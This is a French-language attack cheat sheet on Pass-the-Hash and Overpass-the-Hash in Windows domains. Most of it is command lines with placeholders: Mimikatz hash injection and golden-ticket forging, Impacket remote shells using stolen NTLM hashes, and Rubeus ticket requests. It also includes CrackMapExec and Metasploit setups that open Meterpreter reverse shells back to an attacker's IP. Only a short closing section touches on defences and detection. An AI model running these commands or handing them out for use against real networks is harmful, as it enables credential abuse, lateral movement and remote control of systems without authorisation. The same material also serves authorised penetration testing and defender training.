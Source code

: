 # VI.A. Pass-the-Hash (PtH) / Overpass-the-Hash (OtH)

Pass-the-Hash (PtH) est une technique qui permet à un attaquant de s'authentifier sur un système distant en utilisant le hash NTLM du mot de passe d'un utilisateur, au lieu du mot de passe en clair. Overpass-the-Hash (OtH) est une variante où le hash NTLM est utilisé pour obtenir un ticket Kerberos (TGT), qui est ensuite utilisé pour l'authentification (essentiellement PtH vers Kerberos).

## Prérequis
*   Obtention d'un hash NTLM d'un utilisateur (via dump de LSASS, SAM, DCSync, etc.).
*   L'utilisateur dont le hash est utilisé doit avoir des droits d'accès (souvent admin local) sur la machine cible.
*   Le protocole NTLM doit être utilisable pour l'authentification sur la machine cible.

## 1. Pass-the-Hash (PtH)

Utilise directement le hash NTLM pour s'authentifier via le protocole NTLM.

*   **Outils et Commandes :**

    *   **Mimikatz (Windows) :**
        ```
        privilege::debug
        # Lancer une nouvelle session avec le hash
        sekurlsa::pth /user:<NOM_UTILISATEUR> /domain:<NOM_DOMAINE> /ntlm:<HASH_NTLM> /run:"cmd.exe"
        # Cela ouvre un nouveau cmd.exe dans le contexte de l'utilisateur.
        # À partir de ce cmd, vous pouvez accéder aux ressources distantes :
        # dir \\<MACHINE_CIBLE>\C$
        # psexec.exe \\<MACHINE_CIBLE> cmd.exe
        ```

    *   **Impacket (Linux - psexec.py, smbexec.py, wmiexec.py, dcomexec.py) :**
        Ces outils permettent d'exécuter des commandes ou d'obtenir un shell sur une machine distante en utilisant le hash.
        ```bash
        # PsExec-like (shell interactif)
        psexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes <LM_HASH>:<NT_HASH>
        # Si LM_HASH n'est pas connu (souvent le cas), utiliser une chaîne vide ou aad3b435b51404eeaad3b435b51404ee
        psexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH>

        # Exécuter une commande unique avec smbexec.py
        smbexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH> -C "whoami"

        # Shell interactif avec wmiexec.py
        wmiexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH>
        ```

    *   **CrackMapExec (Linux) :**
        Peut utiliser des hashes pour s'authentifier et exécuter des modules.
        ```bash
        crackmapexec smb <IP_CIBLE_OU_PLAGE> -u <UTILISATEUR> -H <NT_HASH> -d <DOMAINE> -x "whoami"
        # Pour obtenir un shell Meterpreter (si un listener est configuré)
        # crackmapexec smb <IP_CIBLE> -u <UTILISATEUR> -H <NT_HASH> -d <DOMAINE> -M metinject -o LHOST=<IP_ATTAQUANT> LPORT=<PORT>
        ```

    *   **Metasploit Framework (module `exploit/windows/smb/psexec`) :**
        Ce module supporte l'utilisation de hashes.
        ```
        msfconsole
        use exploit/windows/smb/psexec
        set RHOSTS <IP_CIBLE>
        set SMBUser <UTILISATEUR>
        set SMBPass <NT_HASH>  # Metasploit gère le format LM:NT, si LM est vide, il le mettra.
        # ou set SMBPass aad3b435b51404eeaad3b435b51404ee:<NT_HASH>
        set SMBDomain <DOMAINE>
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        set LHOST <IP_ATTAQUANT>
        exploit
        ```

## 2. Overpass-the-Hash (OtH) / Pass-the-Key

Utilise le hash NTLM pour demander un TGT Kerberos, puis utilise ce TGT pour s'authentifier (Pass-the-Ticket).

*   **Outils et Commandes :**

    *   **Mimikatz (Windows) :**
        ```
        privilege::debug
        # Demander un TGT en utilisant le hash NTLM
        sekurlsa::pth /user:<NOM_UTILISATEUR> /domain:<NOM_DOMAINE_FQDN> /ntlm:<HASH_NTLM> /run:"cmd.exe"
        # Dans le nouveau cmd.exe, les tickets Kerberos sont disponibles.
        # klist (pour voir les tickets)
        # dir \\<MACHINE_CIBLE_FQDN>\C$
        ```
        Alternativement, pour injecter directement un TGT forgé avec le hash (AES Key si disponible est mieux) :
        ```
        # Si vous avez la clé AES256 du compte (obtenue via DCSync par exemple)
        kerberos::golden /user:<NOM_UTILISATEUR> /domain:<NOM_DOMAINE_FQDN> /sid:<SID_DOMAINE> /aes256:<CLE_AES256> /ptt
        # Ou avec le hash NTLM (moins fiable pour forger des TGTs directement, mais Mimikatz peut tenter)
        # kerberos::golden /user:<NOM_UTILISATEUR> /domain:<NOM_DOMAINE_FQDN> /sid:<SID_DOMAINE> /rc4:<HASH_NTLM> /ptt
        # Après /ptt, le ticket est dans la session actuelle.
        ```

    *   **Rubeus (Windows) :**
        Rubeus est excellent pour les opérations Kerberos.
        ```powershell
        # Demander un TGT en utilisant le hash NTLM (RC4)
        Rubeus.exe asktgt /user:<UTILISATEUR> /domain:<DOMAINE_FQDN> /rc4:<HASH_NTLM> /ptt
        # Ou avec une clé AES (préférable si disponible)
        # Rubeus.exe asktgt /user:<UTILISATEUR> /domain:<DOMAINE_FQDN> /aes256:<CLE_AES256> /ptt

        # Après /ptt, le ticket est injecté dans la session actuelle.
        # klist
        # dir \\<MACHINE_CIBLE_FQDN>\C$
        ```

## Considérations
*   **Restricted Admin Mode (pour RDP) :** Si le "Restricted Admin Mode" est activé sur la machine cible et que l'attaquant utilise PtH pour une connexion RDP, les credentials ne sont pas exposés sur la machine cible. Cependant, cela nécessite des droits d'admin local.
*   **Protection LSA (RunAsPPL) :** Peut empêcher l'accès direct à LSASS et donc le dump de hashes. Des contournements peuvent exister (ex: via un driver malveillant).
*   **Microsoft Defender for Identity (anciennement Azure ATP) et autres EDRs :** Peuvent détecter les activités PtH/OtH.
*   **Net-NTLMv1/v2 Downgrade :** PtH repose sur NTLM. Si NTLM est désactivé au profit de Kerberos uniquement, PtH direct ne fonctionnera pas, mais OtH (via Rubeus `asktgt` avec le hash) peut toujours être possible.

Le PtH et l'OtH sont des techniques fondamentales pour le mouvement latéral dans les environnements Windows. 